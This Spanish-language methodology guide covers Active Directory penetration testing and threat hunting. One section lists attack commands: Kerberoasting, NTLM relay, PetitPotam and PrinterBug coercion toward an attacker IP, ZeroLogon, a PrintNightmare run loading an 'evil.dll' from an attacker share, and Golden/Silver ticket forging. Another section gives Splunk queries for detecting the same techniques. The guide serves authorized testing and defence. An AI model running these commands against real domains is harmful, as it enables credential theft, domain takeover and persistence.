

# 🏢 Guía de Implementación por Escenarios de Cliente

---

## 🎯 Objetivo

Esta guía proporciona metodologías específicas para implementar los service packages según el nivel de acceso y recursos proporcionados por el cliente.

---

## 🖥️ Escenario A: Cliente con Máquina Dedicada

### 📋 Características del Escenario
- ✅ Máquina virtual o física proporcionada
- ✅ Acceso administrativo al entorno de testing
- ✅ Conectividad controlada al dominio
- ✅ Posibilidad de instalación de herramientas

### 🎯 Ventajas Operacionales
- **Efectividad Máxima**: Ejecución real de todas las técnicas
- **Evidencias Concretas**: Demostraciones visuales del impacto
- **Validación Completa**: Verificación end-to-end de controles
- **Automatización**: Posibilidad de scripts y herramientas avanzadas

### 🔧 Metodología de Implementación

#### Fase 1: Preparación del Entorno (Día 1-2)
```bash
# Setup inicial de herramientas
# Ejemplo de setup automatizado para máquina de testing

# 1. Instalación de dependencias
sudo apt update && sudo apt install -y python3-pip git crackmapexec

# 2. Clone de herramientas principales
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/GhostPack/Rubeus.git
git clone https://github.com/BloodHoundAD/BloodHound.git

# 3. Setup de Impacket
cd impacket && pip3 install .

# 4. Verificación de conectividad
ping <domain-controller-ip>
nmap -p 88,135,139,389,445,464,636 <domain-controller-ip>
```

#### Fase 2: Ejecución por Pack

##### 🔰 Pack 1 - Implementación Completa
```bash
# Día 1-3: Reconocimiento y Enumeración
echo "=== PACK 1 - DÍA 1: RECONOCIMIENTO ==="

# Enumeración SMB
enum4linux -a <target-ip>
smbclient -L //<target-ip> -N
crackmapexec smb <target-ip> --shares

# Enumeración LDAP  
ldapsearch -x -h <target-ip> -s base namingcontexts
python3 windapsearch.py -d <domain> --dc-ip <target-ip> -U

# Enumeración RPC
rpcclient -U "" -N <target-ip>
# > enumdomusers
# > enumdomgroups

# Día 4-7: Ataques de Credenciales
echo "=== PACK 1 - DÍA 4: ATAQUES CREDENCIALES ==="

# AS-REP Roasting
python3 GetNPUsers.py <domain>/ -no-pass -dc-ip <target-ip>

# Kerberoasting
python3 GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <target-ip> -request

# BruteForce Kerberos
kerbrute userenum --dc <target-ip> -d <domain> users.txt

# Día 8-14: Relay Attacks
echo "=== PACK 1 - DÍA 8: RELAY ATTACKS ==="

# SMB Relay básico
python3 ntlmrelayx.py -tf targets.txt -smb2support

# Responder + Relay
sudo responder -I eth0 -dwP
python3 ntlmrelayx.py -tf targets.txt -smb2support -6
```

##### ⚡ Pack 2 - Técnicas Avanzadas
```bash
# Semana 3-4: Kerberos Avanzado
echo "=== PACK 2 - SEMANA 3: KERBEROS AVANZADO ==="

# Unconstrained Delegation
python3 findDelegation.py <domain>/<user>:<pass>
# Si se encuentra delegación:
python3 getST.py -spn <target-spn> -impersonate <admin-user> <domain>/<delegated-user>

# RBCD Abuse
python3 rbcd.py <domain>/<user>:<pass> -delegate-to <target>$ -delegate-from <controlled-machine>$

# S4U2Self/S4U2Proxy
python3 getST.py -spn <service-spn> -impersonate <target-user> <domain>/<service-account>

# Semana 5-6: Coerción y CVEs
echo "=== PACK 2 - SEMANA 5: COERCIÓN Y CVES ==="

# Coerción de autenticación
python3 printerbug.py <domain>/<user>:<pass>@<target> <attacker-ip>
python3 PetitPotam.py <attacker-ip> <target-ip>

# ZeroLogon
python3 zerologon_tester.py <dc-name> <dc-ip>

# PrintNightmare
python3 CVE-2021-1675.py <domain>/<user>:<pass>@<target> '\\<attacker>\share\evil.dll'
```

##### 🎯 Pack 3 - Técnicas Expertas
```bash
# Semana 7-10: Persistencia y Tickets
echo "=== PACK 3 - SEMANA 7: PERSISTENCIA ==="

# Golden Ticket (requiere KRBTGT hash)
python3 ticketer.py -nthash <krbtgt-hash> -domain-sid <domain-sid> -domain <domain> Administrator

# Silver Ticket
python3 ticketer.py -nthash <service-hash> -spn <service-spn> -domain-sid <domain-sid> -domain <domain> Administrator

# DCShadow (requiere privilegios elevados)
# Implementación con mimikatz en entorno controlado

# Semana 11-12: Mainframes (si aplica)
echo "=== PACK 3 - SEMANA 11: MAINFRAMES ==="

# z/OS Enumeration
nmap -p 23,992 --script=tn3270-screen <mainframe-ip>
python3 z_enum.py <mainframe-ip>

# TSO/ISPF Access
telnet <mainframe-ip> 23
# Manual testing según documentación mainframe
```

#### Fase 3: Validación y Documentación
```bash
# Verificación de detección en SIEM
echo "=== VALIDACIÓN DE DETECCIÓN ==="

# Revisión de logs generados
# Correlación con eventos en SIEM/XDR
# Documentación de técnicas no detectadas
# Generación de evidencias y recomendaciones
```

### 📊 Entregables Escenario A
1. **Evidencias de Ejecución**: Screenshots, logs, videos
2. **Matriz de Detección**: Qué técnicas fueron detectadas
3. **Análisis de Impacto**: Simulación de daños por técnica
4. **Hardening Roadmap**: Priorización de mitigaciones

---

## 📊 Escenario B: Solo Acceso SIEM/XDR

### 📋 Características del Escenario
- ⚠️ Sin posibilidad de ejecución directa
- ✅ Acceso a herramientas de monitoreo
- ✅ Acceso a logs históricos
- ✅ Capacidad de crear reglas y alertas

### 🎯 Ventajas del Hunting Activo
- **Análisis Forense**: Identificación de ataques pasados
- **Tuning de Reglas**: Optimización de detecciones
- **Gap Analysis**: Identificación de puntos ciegos
- **Threat Intelligence**: Correlación con IOCs

### 🔍 Metodología de Hunting

#### Fase 1: Configuración de Hunting (Día 1-2)
```splunk
# Configuración inicial de búsquedas base
# Ejemplo para Splunk

# Búsqueda base de eventos de AD
index=windows sourcetype="WinEventLog:Security" 
| eval EventDescription=case(
    EventCode=4624, "Successful Logon",
    EventCode=4625, "Failed Logon", 
    EventCode=4768, "Kerberos TGT Request",
    EventCode=4769, "Kerberos Service Ticket"
)

# Dashboard de baseline para eventos normales
index=windows EventCode IN (4624,4625,4768,4769) earliest=-7d
| stats count by EventCode, Computer, Account_Name
| sort -count
```

#### Fase 2: Hunting por Pack

##### 🔰 Pack 1 - Hunting Básico
```splunk
# === PACK 1 HUNTING QUERIES ===

# 1. Detección AS-REP Roasting
index=windows EventCode=4768 Ticket_Options=0x40810000
| stats count by Account_Name, Client_Address 
| where count > 10

# 2. Detección Kerberoasting  
index=windows EventCode=4769 Service_Name!="*$" Ticket_Encryption_Type=0x17
| stats count by Account_Name, Service_Name
| where count > 5

# 3. Detección SMB Enumeration
index=windows EventCode=5140 Share_Name!="IPC$"
| stats dc(Share_Name) as unique_shares by Computer, Account_Name
| where unique_shares > 10

# 4. Detección BruteForce
index=windows EventCode=4625 
| bucket _time span=5m
| stats count by _time, Account_Name, Computer
| where count > 5

# 5. Detección Anonymous Logon
index=windows EventCode=4624 Logon_Type=3 Account_Name="ANONYMOUS LOGON"
| stats count by Computer, Source_Network_Address
```

##### ⚡ Pack 2 - Hunting Avanzado
```splunk
# === PACK 2 HUNTING QUERIES ===

# 1. Detección Unconstrained Delegation Abuse
index=windows EventCode=4769 Ticket_Options=0x40810000 Service_Name="*$"
| join Account_Name [search index=windows EventCode=4624 Logon_Type=3]
| stats count by Account_Name, Service_Name, Computer

# 2. Detección RBCD Abuse
index=windows EventCode=5136 Object_Class="computer" Attribute_LDAP_Display_Name="msDS-AllowedToActOnBehalfOfOtherIdentity"
| table _time, Object_DN, Subject_User_Name, Attribute_Value

# 3. Detección Coerción (PrinterBug/PetitPotam)
index=windows EventCode=4624 Logon_Type=3 Process_Name="*spoolsv.exe*"
| stats count by Computer, Account_Name, Source_Network_Address
| where count < 5 AND Source_Network_Address!="127.0.0.1"

# 4. Detección ZeroLogon
index=windows EventCode=4742 Account_Name="*$" 
| where like(Attribute_Value, "%0000000000000000%")
| table _time, Computer, Account_Name, Subject_User_Name

# 5. Detección PrintNightmare
index=windows source="WinEventLog:Microsoft-Windows-PrintService/Operational" EventCode IN (316,319,808)
| where like(Driver_Name, "*\\\\*") OR like(Driver_Path, "*\\\\*")
| table _time, Computer, Driver_Name, Driver_Path, User
```

##### 🎯 Pack 3 - Hunting Experto
```splunk
# === PACK 3 HUNTING QUERIES ===

# 1. Detección Golden Ticket
index=windows EventCode=4624 Logon_Type=3 
| join Account_Name [search index=windows EventCode=4768 | where Ticket_Lifetime > 600000]
| where Authentication_Package="Kerberos" AND Account_Domain!="NT AUTHORITY"
| table _time, Account_Name, Computer, Ticket_Lifetime

# 2. Detección DCShadow  
index=windows EventCode=4742 Object_Class="server" Attribute_LDAP_Display_Name="servicePrincipalName"
| regex Attribute_Value="^GC/"
| table _time, Object_DN, Subject_User_Name, Attribute_Value

# 3. Detección Silver Ticket
index=windows EventCode=4624 Logon_Type=3
| join Account_Name [search index=windows EventCode=4769 | where Ticket_Encryption_Type!=0x12]  
| where Authentication_Package="Kerberos"
| table _time, Account_Name, Service_Name, Computer

# 4. Detección ADCS ESC Attacks
index=windows source="WinEventLog:Microsoft-Windows-CertificateServicesClient-Lifecycle-System/Operational" 
EventCode=1006
| table _time, Computer, Template_Name, Subject_Name

# 5. Detección Lateral Movement Avanzado
index=windows EventCode=4624 Logon_Type IN (3,9,10)
| transaction Account_Name maxspan=1h
| where dc(Computer) > 3
| table Account_Name, Computer, eventcount
```

#### Fase 3: Gap Analysis y Recomendaciones
```splunk
# === ANÁLISIS DE GAPS ===

# Técnicas sin eventos correlacionados
# Generar reporte de técnicas Pack X sin evidencia en logs
# Priorizar por criticidad e impacto potencial

# Ejemplo de reporte de gaps
| inputlookup pack1_techniques.csv
| join technique [search index=windows earliest=-30d | stats count by technique]
| where isnull(count)
| table technique, criticality, impact, hardening_required
```

### 📊 Entregables Escenario B
1. **Hunting Report**: Técnicas identificadas en logs históricos
2. **Gap Analysis**: Técnicas sin visibilidad en SIEM
3. **Detection Rules**: Nuevas reglas optimizadas
4. **Hardening Plan**: Recomendaciones por gaps identificados

---

## 🔄 Metodología Híbrida: SIEM + Laboratorio Limitado

### 📋 Escenario Combinado
Algunos clientes pueden proporcionar acceso limitado a máquinas de testing junto con herramientas de monitoreo.

### 🎯 Estrategia Híbrida
1. **Hunting Primero**: Identificar qué técnicas han ocurrido
2. **Testing Selectivo**: Ejecutar solo técnicas no detectadas
3. **Validación Cruzada**: Correlacionar ejecución con detección
4. **Optimización**: Tuning de reglas basado en tests reales

### 🔧 Flujo de Trabajo


---

## 📊 Matriz de Decisión por Escenario

| Criterio | Escenario A | Escenario B | Híbrido |
|----------|-------------|-------------|---------|
| **Costo** | 🔴 Alto | 🟢 Bajo | 🟡 Medio |
| **Efectividad** | 🟢 Muy Alta | 🟡 Media | 🟢 Alta |
| **Riesgo** | 🟡 Controlado | 🟢 Mínimo | 🟡 Bajo |
| **Evidencias** | 🟢 Completas | 🟡 Limitadas | 🟢 Buenas |
| **Hardening** | 🟢 Específico | 🟡 Genérico | 🟢 Optimizado |

---

## 🛠️ Herramientas por Escenario

### Escenario A (Máquina Dedicada)
```bash
# Toolkit completo de pentesting
# Impacket, Rubeus, BloodHound, CrackMapExec
# PowerView, Mimikatz, herramientas específicas
# Scripts de automatización personalizados
```

### Escenario B (Solo SIEM)
```splunk
# Queries de hunting personalizadas
# Dashboards de monitoreo
# Reglas de detección Sigma
# Scripts de análisis de logs
```

### Escenario Híbrido
```bash
# Combinación selectiva basada en findings
# Herramientas de testing específicas para gaps
# Correlación automatizada SIEM-Testing
# Validación cruzada de detecciones
```

---

## 📚 Templates de Documentación

### Template Ejecutivo por Escenario
- **Escenario A**: Enfoque en demostraciones y evidencias visuales
- **Escenario B**: Enfoque en análisis forense y gaps de detección  
- **Híbrido**: Balance entre evidencias y optimización

### Métricas de Éxito
```
Escenario A:
- % Técnicas ejecutadas exitosamente
- % Técnicas detectadas por SIEM
- Tiempo promedio de detección
- Número de falsos positivos

Escenario B:  
- % Técnicas identificadas en logs históricos
- Número de gaps críticos identificados
- Número de reglas optimizadas
- Reducción de falsos positivos
```

---

*Actualizado: Agosto 2024*  
*Autor: [MinoTauro2020](https://github.com/MinoTauro2020)*